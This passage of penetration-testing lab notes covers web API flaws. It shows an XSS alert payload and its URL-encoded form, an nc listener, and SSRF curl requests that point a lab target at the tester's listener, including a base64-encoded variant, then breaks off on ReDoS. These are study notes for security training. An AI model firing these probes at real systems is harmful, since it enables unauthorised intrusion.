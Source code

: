 * Cross-Site Scripting:

  * XSS vulns allow attackers to execute JS code within target browser

  * For given API, if we send a request to '/api/download/test_value', we get the message 'test_value not found'

  * In place of 'test_value', we can try for common XSS payloads:

    ```js
    <script>alert(document.domain)</script>
    ```
  
  * The API submits the encoded payload, so we need to submit a URL-encoded payload:

    ```js
    %3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
    ```
  
  * This code gets executed, which means API is vulnerable to XSS attacks

* Server-Side Request Forgery:

  * Interacting with given API service shows we need a 'ID' parameter:

    ```sh
    curl http://10.129.155.60:3000/api/userinfo
    ```
  
  * To check for SSRF vulns, we can setup a listener using ```nc -nvlp 4444``` and specify our URL as value of 'id':

    ```sh
    curl "http://10.129.155.60:3000/api/userinfo?id=http://10.10.60.45:4444"
    # this does not work

    # we can try a base64-encoded payload

    echo "http://10.10.60.45:4444" | tr -d '\n' | base64

    curl "http://10.129.155.60:3000/api/userinfo?id=<base64-payload>"
    # we can see a connection made to our listener
    # we can check with other type of encodings
    ```

* Regular Expression Denial of Service:

  * For APIs matching input with regex on server side, we can submit crafted payloads to increase evaluation time, resulting in ReDoS attacks

  * The given API service accepts a parameter 'email':

    ```sh
    curl "http://10.129.202.133:3000/api/check-email?email=test"
    # json response with regex value and 'success' set to false
    ```
  